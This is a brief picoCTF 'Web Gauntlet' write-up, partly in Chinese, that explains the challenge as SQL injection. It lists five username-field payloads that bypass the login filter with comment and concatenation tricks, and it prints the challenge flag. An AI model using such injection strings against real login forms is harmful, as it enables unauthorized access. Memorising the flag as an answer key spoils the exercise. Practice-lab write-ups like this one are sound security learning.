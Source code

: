 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

```
1. admin/';--
2. admin/';0x2d2d
3. admin/';0x2d2d
4. ad/'||/'min/';0x2d2d
5. ad/'||/'min/';0x2d2d
```

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}